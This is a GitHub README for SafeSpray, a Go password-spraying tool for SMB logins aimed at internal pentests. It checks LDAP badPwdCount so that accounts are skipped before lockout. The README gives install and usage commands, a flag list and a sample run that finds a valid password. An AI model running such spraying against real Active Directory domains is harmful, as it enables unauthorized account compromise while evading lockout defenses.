 # SafeSpray
A simple smb login password spraying tool written in go that aims to prevent account lockouts.  
The difference between this tool and others is that it will only perform
password spraying on accounts that meet the following criteria:  
1. has a badpwdcount equal to 0  
2. has a username that is present in the provided userlist flag  
3. does not end in $ (computer accounts usually though this should not ever be hit since it only queries user objects)  
4. is not an account in ignoreArray (see isIgnorable function)  

Also, to get this information it will query all ldap users at the time the password
spray is performed, therefore a valid user account is needed (in most environments).

Obviously this will not be applicable to all types of engagements, but it should work
great on internal (non-stealth) pentesting engagements. 

This way you really _shouldn't_ need to worry about the password policy as long as
it allows more than 1 failed login attempt.

All this said, test it on your own first, I am not responsible for account lockouts.

# To install  
```
go install github.com/deadjakk/safespray@latest
```

# To Use
```
jakk@tele ~/spaf $ ./safespray -domain sprawl.local.shell.rip -password Password1 -spraypassword Password1 -userlist users.txt -username administrator -verbose
SKIPPED account (reason: not present in user list): Administrator
ADDED account: carnivore
loaded 1 users
SUCCESS - carnivore@sprawl.local.shell.rip with password Password1
```

# Example usage  

```
Usage of ./safespray:
  -authdomain string
    	(optional) valid domain to query ldap (if different from target domain)
  -dcip string
    	(optional) ip of the domain controller, optional, if excluded domain will be used as target instead
  -domain string
    	target domain name to authenticate and spray against
  -dryrun
    	(optional RECOMMENDED) will load the users and do nothing else. good to see what accounts will be run against
  -password string
    	valid password to query ldap
  -spraypassword string
    	password to spray
  -userlist string
    	path to the user file
  -username string
    	valid username to query ldap
  -verbose
    	(optional) enable verbose output
```

Note: These were both run in quick succession, and because the test account failed to authenticate on the first run, it was omitted from the second run due to the updated `badPwdCount`.  
![image](https://github.com/user-attachments/assets/31781280-0360-4a1e-87b4-a3ad0bee63ae)

